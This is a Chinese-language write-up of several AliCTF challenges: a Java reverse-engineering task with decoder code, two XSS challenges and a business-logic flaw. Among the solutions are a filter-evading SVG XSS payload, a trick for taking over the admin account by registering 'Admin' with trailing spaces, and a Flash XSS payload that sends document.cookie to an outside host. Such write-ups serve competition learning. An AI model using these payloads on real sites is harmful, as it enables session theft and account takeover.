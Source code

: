 # alictf_write_up


#cake

这道题非常简单，使用了key与提交的字符进行了异或，判断之后的字符ascii与预设的数字相等，如果相等就通过，否则throw一个异常，check错误。比较坑的地方是下面的这段代码:

```java
        try {
            v0_1 = this.getKey();
        }
        catch(Exception v0) {
            v0_1 = this.getKey();
            System.arraycopy(v0_1, 0, arg10, v5, v5);
        }
```

仔细看try和catch的“K”是不一样的，try中调用的是父类中的方法，而非当前类的方法，所以key值应该是bobdylan。解码就简单了，直接用预设数字与key异或一下就可以得出正确的字符传了，解码代码如下：

```java
	public static void main(String[] args) {
		// TODO Auto-generated method stub
	       String v0_1 = "bobdylan";
	        int v7 = 15;
	        int v6 = 7;
	        int v1 = 0;
	        int v5 = 5;
        int[] v2 = new int[16];
        v2[0] = 0;
        v2[12] = 14;
        v2[10] = v6;
        v2[14] = v7;
        v2[v7] = 42;
        int v4 = 3;
        try {
            v2[1] = v4;
            v2[5] = 5;
            System.out.println();
        }
        catch(Exception v3) {
            v2[v5] = 37;
            v2[1] = 85;
        }

        v2[6] = v7;
        v2[2] = 13;
        v2[3] = 19;
        v2[11] = 68;
        v2[4] = 85;
        v2[13] = v5;
        v2[9] = v6;
        v2[v6] = 78;
        v2[8] = 22;
        while(v1 < 16) {
                System.out.print((char)((v2[v1] & 255)^(v0_1.charAt(v1 % v0_1.length()&255))));


            ++v1;
        }
	}

}
```

#前端初赛题1

利用svg标签里script能执行html hex的特性再urlencode，网站会把urldecode
>payload:
>http://089d9b2b0de6a319.alictf.com/xss.php?name=%3Csvg%3E%3Cscript%3E%26%23x61%3b%26%23x6c%3b%26%23x65%3b%26%23x72%3b%26%23x74%3b%26%23x28%3b%26%23x31%3b%26%23x29%3b%3C/script%3E



#简单业务逻辑

注册用户Admin+若干个空格(猜测后端使用了trim(username)然后insert到了数据库)
成功注册覆盖掉了Admin的密码  
![](./jiandanyewuluoji1.png)
发现钱不够啊，钱不够就得加啊，用负数买个东西就能加钱了
![](./jiandanyewuluoji2.png)
钱够了就能买flag了



#前端初赛题2

下载swf回来反编译一下
代码是这样
    //ActionScript 3.0
    //  class swf
    package 
    {
        import flash.display.*;
        import flash.events.*;
        import flash.external.*;
        import flash.net.*;
        
        public class swf extends flash.display.Sprite
        {
            public function swf()
            {
                var loc3:*=undefined;
                var loc4:*=undefined;
                super();
                var loc1:*=root.loaderInfo.parameters;
                var loc2:*=root.loaderInfo.url.indexOf("?");
                if (loc2 !== -1) 
                {
                    loc3 = this.parseStr(root.loaderInfo.url.substr(loc2 + 1));
                    var loc5:*=0;
                    var loc6:*=loc1;
                    for (loc4 in loc6) 
                    {
                        if (!loc3.hasOwnProperty(this.trim(loc4))) 
                        {
                            continue;
                        }
                        delete loc1[loc4];
                    }
                }
                flash.external.ExternalInterface.call("console.debug", loc1.debug);
                return;
            }   

            public function parseStr(arg1:String):Object
            {
                var loc5:*=null;
                var loc1:*={};
                arg1 = unescape(arg1).replace(new RegExp("\\+", "g"), " ");
                var loc2:*=arg1.split("&");
                if (!loc2.length) 
                {
                    return {};
                }
                var loc3:*=0;
                var loc4:*=loc2.length;
                while (loc3 < loc4) 
                {
                    if ((loc5 = loc2[loc3].split("=")).length) 
                    {
                        loc1[this.trim(loc5[0])] = this.trim(loc5[1]);
                    }
                    ++loc3;
                }
                return loc1;
            }   

            public function trim(arg1:String):String
            {
                if (!arg1) 
                {
                    return arg1;
                }
                return arg1.toString().replace(new RegExp("^\\s*"), "").replace(new RegExp("\\s*$"), "");
            }
        }
    }   
    
输入点在flash.external.ExternalInterface.call("console.debug", loc1.debug);
因为第一个变量写死了，那么只能用第二个变量进行xss
然后绕 if (!loc3.hasOwnProperty(this.trim(loc4))) 

查了一下百度hasOwnProperty是个什么鬼
>如果 object 具有指定名称的属性，那么JavaScript中hasOwnProperty函数方法返回 true；反之则返回 false。此方法无法检查该对象的原型链中是否具有该属性；该属性必须是对象本身的一个成员。在下例中，所有的 String 对象共享一个公用 split 方法。下面的代码将输出 false 和 true。 

那就必须使loc4不是loc3的成员  
在乌云drops找到了一篇文章 
http://drops.wooyun.org/papers/948

    0x02 利用Flash的URL解码功能来绕过一些保护机制
    如果你需要将你的vector发送到藏在防火墙的后面受害者（flashvars­可以使用#来达到隐藏自己的目的）又或者想突破一些客户端的XSS防御机制这个方法将会十分的凑效。这一切都基于flash会丢弃一些被URL编码过的无效字符。

    (1)flash会丢弃两个出现在%后面的无效十六进制字符（([^0-9a-fA-F])），比如：

    "%X" or "%="
    (2)如果在%后面出现一个有效和一个非有效十六进制字符，就会丢弃三个字符，比如：

    "%AX" or "%A&"
    小记：有时候ASCII值大于127的一些字符会被转换成问号。当然这是发生在URL跳转的时候。除此之外，被编码过的BOM字符(“%EF%BB%BF”) 也可以用来替换空格。举个例子来说,我们可以把“alert(1)”写成“alert%EF%BB%BF(1)” 。
    最后把这些都组合起来：

    http://0me.me/demo/xss/xssproject.swf?%#js=al%A#e%Xrt(docum%A#ent.doma%A#in);

    http://0me.me/demo/xss/xssproject.swf?%I%R%S%D%%Ljs=loca%Xtion.hr%Yef='jav%Zascri %AXpt:x="<sc%AYript>ale%AZrt(docu%?ment.dom%/ain)</sc%&ript>"'
解析的时候会忽略,但是还在URL里面,他拿字符串来分解的时候，key就不一样了

>test payload:  
>http://8dd25e24b4f65229.alictf.com/swf.swf?%*debug=\%22));alert(1)}catch(e){}//

但是但是 用跳转的方式他没有x到cookie(别问我为什么，我也不知道)
换了个姿势  
>http://8dd25e24b4f65229.alictf.com/swf.swf?%*debug=\%22));{var%20i=new%20Image();i.src=%27http://xssguet.sinaapp.com?/%27%2bescape(document.cookie)}catch(e){}//


